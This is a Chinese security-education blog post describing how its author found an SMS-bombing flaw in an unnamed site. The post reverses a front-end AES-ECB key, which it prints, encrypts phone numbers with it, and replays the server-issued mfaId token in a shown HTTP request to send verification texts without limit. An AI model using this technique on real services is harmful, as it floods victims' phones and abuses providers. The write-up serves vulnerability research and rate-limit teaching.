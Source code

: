 #  简易短信轰炸漏洞挖掘   
小白鱼  掌控安全EDU   2024-12-29 04:00  
  
扫码领资料  
  
获网安教程  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrpvQG1VKMy1AQ1oVvUSeZYhLRYCeiaa3KSFkibg5xRjLlkwfIe7loMVfGuINInDQTVa4BibicW0iaTsKw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fchVnBLMw4kTQ7B9oUy0RGfiacu34QEZgDpfia0sVmWrHcDZCV1Na5wDQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
# 本文由掌控安全学院 -  小白鱼 投稿  
  
**来****Track安全社区投稿~**  
  
**千元稿费！还有保底奖励~（https://bbs.zkaq.cn）**  
## 大致流程  
  
手机号等数据被加密，通过逆向找到加密方式—>对手机号加密发送验证码—>手机带着标识值给服务器—>服务器会给手机重新生成一个标识值—>利用服务器重新生成的标识值再发送给服务器  
## 挖掘流程  
### 逆向找出加密方式及密钥  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcoVqqP3BAN3BKEI3QAT8PiaBO8L4aTXHayicc9oF1GYGH0AlZOjV5p3A6SdJCoRPD90s6knGl3PeeLw/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
通过断点逆向找出加密方式及密钥 AES-ECB加密 U0Xg55zo9-TglUjxvBG_Dac_2NAsAyQc 尝试加密手机号判断密钥是否正确可用  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcoVqqP3BAN3BKEI3QAT8PiaBLqA2w1tb8xufq59c540UEBakSfiapnK49a9dPmqXGgtU99PQocYMqKA/640?wx_fmt=png&from=appmsg "null")  
  
img  
### 短信轰炸流程  
  
抓取发送验证码数据包并发送可以发现发送包和回响包都有一个mfaid值  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcoVqqP3BAN3BKEI3QAT8PiaBZj3qcVUUj6UaF2rVo6E2OQgd2FBWjpuGRxHibDKib5kTaDdZeFuljZ5w/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
这里mfaid值得作用是起一个标识作用，告诉服务器我要发送验证码，这个值只能用一次，过后你要给我返回一个新的值  
```
POST /prod-api/xxxr/xxx/send-sms HTTP/1.1
Host: xxxx
Cookie: xxxxxx
Content-Length: 65
Sec-Ch-Ua-Platform: “Windows”
Sec-Ch-Ua: “Microsoft Edge”;v=”131”, “Chromium”;v=”131”, “Not_A Brand”;v=”24”
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8
Istoken: false
Accept-Certificate: 81111559-124c-408e-b436-a86ff5f3d95e
Origin: xxxxxxx
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: xxxxxxx
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=1, i
Connection: keep-alive

{“phoneNumber”:”手机号加密”,”mfaId”:”TMAxxxxxUupr”}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcoVqqP3BAN3BKEI3QAT8PiaBCnTok1twjSVytZvGIiblL0rz7RyJTO8f4ic74uepLUxlJkl8cibM2iclcQ/640?wx_fmt=png&from=appmsg "null")  
  
img  
### 漏洞原因  
  
把mfaid值进行来回替换达到一个短信发送得目的，同时这里未对手机号的发送次数做限制，导致可使用mfaid值进行无限发送造成短信轰炸  
```
```  
  
  
